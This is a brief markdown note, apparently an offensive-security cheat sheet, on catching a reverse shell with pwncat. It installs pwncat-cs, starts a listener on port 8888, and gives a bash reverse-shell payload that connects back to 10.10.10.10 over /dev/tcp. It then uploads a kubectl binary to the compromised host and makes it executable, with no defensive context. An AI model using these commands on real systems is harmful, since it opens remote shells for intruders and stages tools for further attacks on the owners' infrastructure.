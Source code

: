 https://www.revshells.com
Copy payload from pwncat

Install pwncat
```bash
sudo pip install pwncat-cs

pwncat-cs -lp 8888
```

Pase payload 
sh -i >& /dev/tcp/10.10.10.10/8888 0>&1



Ctrl+c -> go back to local
```bash
upload /opt/kubectl
```
Ctrl+d -> go back to remote
```bash
chmod +x ./kubectl
```




